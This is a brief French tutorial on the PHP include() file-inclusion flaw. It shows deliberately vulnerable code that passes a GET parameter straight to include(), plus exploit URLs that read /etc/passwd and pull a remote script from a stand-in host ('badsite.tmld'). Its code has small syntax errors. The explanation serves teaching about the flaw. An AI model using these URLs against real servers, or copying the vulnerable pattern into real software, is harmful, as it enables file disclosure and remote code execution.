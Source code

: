 # La faille include

La fonction include() en PHP sert a exécuter du code php qui se situe dans un autre fichier. Exemple: 

```
<?php

include(bth.php)
```

Dans ce cas, c'est le code dans bth.php qui sera exécuté.

Si par contre le développeur écrit ce code :

```
<?php

include($_GET('file'));
```

Pour exploiter cette faille, on peut utiliser l'URL suivante :

>monsite.tld/index.php?file=/etc/passwd

Ici la fonction "include" va inclure le texte du fichier "/etc/passwd", et donc afficher son contenu. Il est possible de changer "/etc/passwd" en un autre fichier du serveur qui n'est normalement pas accesible, ou même par du code distant accessible sur un autre serveur.

Exemple : 

>monsite.tld/index.php?file=http://badsite.tmld/script.txt

